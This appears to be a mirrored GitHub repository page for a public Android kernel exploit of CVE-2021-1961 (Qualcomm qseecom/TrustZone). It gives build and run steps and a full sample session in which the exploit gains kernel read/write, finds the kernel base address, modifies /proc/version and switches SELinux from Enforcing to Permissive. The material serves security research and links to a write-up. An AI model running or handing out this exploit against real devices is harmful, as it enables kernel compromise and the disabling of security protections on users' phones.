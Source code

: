 # CVE-2021-1961

Exploit code for CVE-2021-1961

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tamirzb](https://github.com/tamirzb) |
| Url      | [https://github.com/tamirzb/CVE-2021-1961](https://github.com/tamirzb/CVE-2021-1961)                                               |
| Stars    | 92                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

Exploit code for CVE-2021-1961. Full write-up is available
[on my blog](https://tamirzb.com/attacking-android-kernel-using-qualcomm-trustzone).

In order to build the exploit, run Android NDK's `ndk-build`.

In order to run the exploit, you need to have access to `/dev/qseecom`, which
means having the right user/group and the right SELinux context. This can be
done either on a debug image using the command `su system`, or on a stock image
patched with [Magisk](https://github.com/topjohnwu/Magisk) using the command
`su - system`.

Here is an example of running the exploit on a stock image patched with Magisk:

```bash
$ adb push qseecom_exploit /data/local/tmp
$ adb shell
blueline:/ $ cd /data/local/tmp
blueline:/data/local/tmp $ su - system
blueline:/data/local/tmp $ id
uid=1000(system) gid=1000(system) groups=1000(system) context=u:r:magisk:s0
blueline:/data/local/tmp $ getenforce
Enforcing
blueline:/data/local/tmp $ ./qseecom_exploit
[+] Setup widevine
[+] Got a 32 bit addresses ION
[+] Setup exploit kernel r/w
[+] Found kallsyms_token_table marker
[+] Found all kallsyms data
[+] Kernel virtual base address: 0xffffff9b9b080000
[+] Modified /proc/version
[+] Disabled SELinux
blueline:/data/local/tmp $ cat /proc/version
*modified*
blueline:/data/local/tmp $ getenforce
Permissive
```



## Get the content

```
git clone https://github.com/tamirzb/CVE-2021-1961
cd CVE-2021-1961
```

{% embed url="https://github.com/tamirzb/CVE-2021-1961" %}

<figure><img src="https://avatars.githubusercontent.com/u/1054209?v=4" alt=""><figcaption><p>tamirzb</p></figcaption></figure>

